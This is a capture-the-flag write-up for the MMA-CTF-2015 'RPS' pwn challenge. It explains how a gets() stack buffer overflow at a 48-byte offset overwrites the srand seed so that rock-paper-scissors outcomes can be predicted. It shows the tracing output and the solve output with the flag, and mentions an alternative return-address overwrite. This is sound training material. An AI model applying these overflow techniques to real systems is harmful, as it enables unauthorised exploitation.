

# MMA-CTF-2015: RPS

**Category:** Pwn
**Points:** 50
**Solves:** 171
**Description:**

> Win 50 games in a row!
>
> `nc milkyway.chal.mmactf.link 1641`
>
> [rps.7z](rps.7z-5c18b372802c14abfec93c81a2cfdc5bac7f5aeeb16ad7404aace7ae25591c6e)

## Write-up

by [polym](https://github.com/abpolym)

This writeup is based on following writeups:

* [b01lers](https://b01lers.net/challenges/MMA%20CTF%202015/RPS%20%28rock%20paper%20scissors%29/58/) (Common understanding)
* <http://iamlazlow.blogspot.com/2015/09/mma-ctf-2015-rps-pwn-warmup.html> (C Code)
* <http://www.securifera.com/blog/2015/09/09/mmactf-2015-rock-paper-scissors-rps/> (IDA decompiled binary, ctypes and pwntools usage)
* <https://jkrshnmenon.wordpress.com/2015/09/09/mmactf15-rps-write-up/> (Alternative solution)
* <http://trich.im/?p=47> (IDA decompiled binary, Alternative solution)
* <http://tungpun.github.io/blog/2015/09/09/write-up--mmactf-2015-pwn-rps/>
* [Japanese](http://charo-it.hatenablog.jp/entry/2015/09/08/005012) (Reversed Source code in C)
* <https://gist.github.com/Bono-iPad/42434cdfff084c637d3b>

### Meta

Keywords:

* Stack Buffer Overflow (`sbo`) in `gets`
* Pseudo Random Number Generator (`prng`)
* Alternative solutions

We are given a 7z archive that contains a x86-64bit non-stripped ELF for Linux:

```bash
$ file rps.7z-5c18b372802c14abfec93c81a2cfdc5bac7f5aeeb16ad7404aace7ae25591c6e
rps.7z-5c18b372802c14abfec93c81a2cfdc5bac7f5aeeb16ad7404aace7ae25591c6e: 7-zip archive data, version 0.3
$ 7z x rps.7z-5c18b372802c14abfec93c81a2cfdc5bac7f5aeeb16ad7404aace7ae25591c6e -oout

7-Zip [64] 9.20  Copyright (c) 1999-2010 Igor Pavlov  2010-11-18
p7zip Version 9.20 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,1 CPU)

Processing archive: rps.7z-5c18b372802c14abfec93c81a2cfdc5bac7f5aeeb16ad7404aace7ae25591c6e

Extracting  rps/rps
Extracting  rps

Everything is Ok

Folders: 1
Files: 1
Size:       9664
Compressed: 2944
$ cd out/rps/
$ file rps
rps: ELF 64-bit LSB  executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=8811962c746e1d068a5fa5b4deb7cb043c30146f, not stripped
```

Running it:

```bash
$ ./rps 
What's your name: cheater
Hi, cheater
Let's janken
Game 1/50
Rock? Paper? Scissors? [RPS]R
Rock-Scissors
You win!!
Game 2/50
Rock? Paper? Scissors? [RPS]R
Rock-Paper
You lose
```

Looks like we have to win 50 rounds of Rock-Paper-Scissors to (maybe) get the flag!

Let's run it with `ltrace -f`:

```bash
$ ltrace -f ./rps 
[pid 2700] __libc_start_main(0x400806, 1, 0x7fff602da5a8, 0x400af0 <unfinished ...>
[pid 2700] fopen("/dev/urandom", "r")                 = 0x251e010
[pid 2700] fread(0x7fff602da4a0, 4, 1, 0x251e010)     = 1
[pid 2700] fclose(0x251e010)                          = 0
[pid 2700] printf("What's your name: ")               = 18
[pid 2700] fflush(0x7f5b0219a400What's your name: )                     = 0
[pid 2700] gets(0x7fff602da470, 0x7f5b0219b9e0, 0, -1cheater
) = 0x7fff602da470
[pid 2700] printf("Hi, %s\n", "cheater"Hi, cheater
)              = 12
[pid 2700] puts("Let's janken"Let's janken
)                       = 13
[pid 2700] fflush(0x7f5b0219a400)                     = 0
[pid 2700] srand(0x24e2002, 0x7f5b0219b9e0, 0, -1)    = 0
[pid 2700] printf("Game %d/50\n", 1Game 1/50
)                  = 10
[pid 2700] printf("Rock? Paper? Scissors? [RPS]")     = 28
[pid 2700] fflush(0x7f5b0219a400Rock? Paper? Scissors? [RPS])                     = 0
[pid 2700] getchar(1, 0x7f5b0219b9e0, 0, -1R
)          = 82
[pid 2700] rand(0, 0x7f5b0219b9f0, 82, -1)            = 0x3d958a93
[pid 2700] printf("%s-%s\n", "Rock", "Rock"Rock-Rock
)          = 10
[pid 2700] puts("Draw"Draw
)                               = 5
[...]
[pid 2700] puts("You lose"You lose
)                           = 9
[pid 2700] fflush(0x7f5b0219a400)                     = 0
[pid 2700] +++ exited (status 1) +++
```

We notice:

* After opening `/dev/urandom` with `fopen`, `4` bytes from it are read into the stack at `0x7fff602da4a0`
* Our username input is read with `gets`, which hints at a Stack Buffer Overflow
* Before the first round starts, `srand` is called.

Disassembling it with `radare2` (`main` is long, only showing part of it):



We see the following:

* At `0x00400825` the address `rbp-local_4` (`local_4` is `rbp-0x20`) is stored into `rax` with `lea` (load effective address)
* `fread` is uses this address as the first parameter (`mov rdi, rax`, `rdi` here is by calling convention the first parameter), which means it stores the read data into a buffer located at the address
* `gets` reads our input into `rbp-local_10`, with `local_10`==`0x50`, so below the buffer address of the previous `fread` buffer
* `srand` uses the `fread` buffer as seed

Using `IDA`, you can generate decompiled C source code representing the binary as seen in [this](https://www.securifera.com/blog/2015/09/09/mmactf-2015-rock-paper-scissors-rps/) or [this writeup](http://trich.im/?p=47). [This Japanese writeup](http://charo-it.hatenablog.jp/entry/2015/09/08/005012) even created very readable C source code.

Looking at the decompiled binary, we see that we should overwrite the `srand` seed with our username input.
We do this, because setting the same seed for `srand`, a "bad" Pseudo Random Number Generator, causes `rand` to generate the same random number sequences  - and thus we can predict the outcome and win the game!

As [this writeup](https://b01lers.net/challenges/MMA%20CTF%202015/RPS%20%28rock%20paper%20scissors%29/58/) suggests, the values for `R`ock, `P`aper or `S`cissors are `0`, `1` and `2` (output of `rand() % 3`).

The offset differences between our input buffer and the `srand` buffer are `0x50-0x20=0x30`=48 bytes. This means providing `4` bytes after a `48` string payload overwrites the seed value.

We now just have to pre-calculate sequences by either writing a C program, as in [this writeup](http://iamlazlow.blogspot.de/2015/09/mma-ctf-2015-rps-pwn-warmup.html) or use the `ctypes` module in python as in [this](https://www.securifera.com/blog/2015/09/09/mmactf-2015-rock-paper-scissors-rps/) or [this writeup](https://gist.github.com/Bono-iPad/42434cdfff084c637d3b).

[This python script](solve.py) uses the latter solution:

```bash
$ p solve.py  
[+] Opening connection to localhost on port 6666: Done
[+] Recieving all data: Done (120B)
[*] Closed connection to localhost port 6666
What's your name: Hi, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA????
Let's janken
Game 1/50
Rock? Paper? Scissors? [RPS]Paper-Rock
You win!!
Game 2/50
Rock? Paper? Scissors? [RPS]Paper-Rock
You win!!
Game 3/50
[...]
Game 50/50
Rock? Paper? Scissors? [RPS]Rock-Scissors
You win!!
Congrats AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA????!!!!
MMA{treed_three_girls}
```

The flag is `MMA{treed_three_girls}`.

PS: Another alternative solution such as in [this](https://jkrshnmenon.wordpress.com/2015/09/09/mmactf15-rps-write-up/) or [this writeup](http://trich.im/?p=47) overwrite the return address `RIP` with the address `0x00400aa4` (or rather some instructions above, since this address contains a `0x0a` byte, forcing `gets` to stop reading) that opens the flag file `flag.txt`, reads the flag and prints it to the user.

## Other write-ups and resources

* [b01lers](https://b01lers.net/challenges/MMA%20CTF%202015/RPS%20%28rock%20paper%20scissors%29/58/)
* <http://iamlazlow.blogspot.com/2015/09/mma-ctf-2015-rps-pwn-warmup.html>
* <https://0x90r00t.com/2015/09/08/mma-2015-pwnwarmup-rps-write-up/>
* <http://www.securifera.com/blog/2015/09/09/mmactf-2015-rock-paper-scissors-rps/>
* <https://jkrshnmenon.wordpress.com/2015/09/09/mmactf15-rps-write-up/>
* <https://ctf-team.vulnhub.com/mma-1st-2015-rps/>
* <http://trich.im/?p=47>
* <http://tungpun.github.io/blog/2015/09/09/write-up--mmactf-2015-pwn-rps/>
* [Japanese](http://charo-it.hatenablog.jp/entry/2015/09/08/005012)
* [Japanese](http://mage-ctf-writeup.blogspot.de/2015/09/mma-ctf-1st-2015.html)
* [Japanese](https://gist.github.com/Bono-iPad/42434cdfff084c637d3b)
* [Japanese](http://kusano-k.hatenablog.com/entry/2015/09/08/014315)
* [Russian](http://countersite.org/articles/reverse_engineering/31-rps-pwn-mmactf-2015-write-up.html)
* [Polish](http://forum.4programmers.net/Spolecznosc/258069-writeup_mma_ctf_2015)
